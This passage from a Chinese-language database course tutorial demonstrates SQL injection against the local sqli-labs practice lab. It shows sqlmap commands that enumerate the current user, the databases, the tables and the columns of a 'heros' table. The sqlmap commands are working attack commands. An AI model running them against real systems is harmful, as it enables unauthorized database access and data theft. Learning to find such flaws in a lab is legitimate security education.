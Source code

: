这里会将字段使用GROUP\_CONCAT函数进行拼接，并将结果作为字段3进行返回，返回的结果如下所示：

```
attack_growth,attack_max,attack_range,attack_speed_max,attack_start,birthdate,defense_growth,defense_max,defense_start,hp_5s_growth,hp_5s_max,hp_5s_start,hp_growth,hp_max,hp_start,id,mp_5s_growth,mp_5s_max,mp_5s_start,mp_growth,mp_max,mp_start,name,role_assist,role_main
```

![](https://static001.geekbang.org/resource/image/f3/bf/f30c7a68fba4fd8eff3ea8370aca00bf.png?wh=1725%2A116)

## 使用SQLmap工具进行SQL注入检测

经过上面的实验你能体会到，如果我们编写的代码存在着SQL注入的漏洞，后果还是很可怕的。通过访问`information_schema`就可以将数据库的信息暴露出来。

了解到如何完成注入SQL后，我们再来了解下SQL注入的检测工具，它可以帮我们自动化完成SQL注入的过程，这里我们使用的是SQLmap工具。

下面我们使用SQLmap再模拟一遍刚才人工SQL注入的步骤。

### 获取当前数据库和用户信息

我们使用`sqlmap -u`来指定注入测试的URL，使用`--current-db`来获取当前的数据库名称，使用`--current-user`获取当前的用户信息，具体命令如下：

```
python sqlmap.py -u "http://localhost/sqli-labs-master/Less-1/?id=1" --current-db --current-user
```

然后你能看到SQLmap帮我们获取了相应的结果：

![](https://static001.geekbang.org/resource/image/42/05/42626ab164f9935e0c22ced9fa5f8105.png?wh=1097%2A219)

### 获取MySQL中的所有数据库名称

我们可以使用`--dbs`来获取DBMS中所有的数据库名称，这里我们使用`--threads`参数来指定SQLmap最大并发数，设置为5，通常该参数不要超过10，具体命令为下面这样：

```
python sqlmap.py -u "http://localhost/sqli-labs-master/Less-1/?id=1" --threads=5 --dbs
```

同样SQLmap帮我们获取了MySQL中存在的8个数据库名称：

![](https://static001.geekbang.org/resource/image/b9/53/b9f9b624e863cd507c1cb1c4b1fc1853.png?wh=1284%2A1125)

### 查询wucai数据库中所有数据表

当我们知道DBMS中存在的某个数据库名称时，可以使用-D参数对数据库进行指定，然后使用`--tables`参数显示出所有的数据表名称。比如我们想要查看wucai数据库中都有哪些数据表，使用：

```
python sqlmap.py -u "http://localhost/sqli-labs-master/Less-1/?id=1" --threads=5 -D wucai --tables
```

![](https://static001.geekbang.org/resource/image/11/16/119174ae050e5a27e70ebc5537d7b116.png?wh=525%2A750)

### 查询heros数据表中所有字段名称

我们也可以对指定的数据表，比如heros表进行所有字段名称的查询，使用`-D`指定数据库名称，`-T`指定数据表名称，`--columns`对所有字段名称进行查询，命令如下：

```
python sqlmap.py -u "http://localhost/sqli-labs-master/Less-1/?id=1" --threads=5 -D wucai -T heros --columns
```
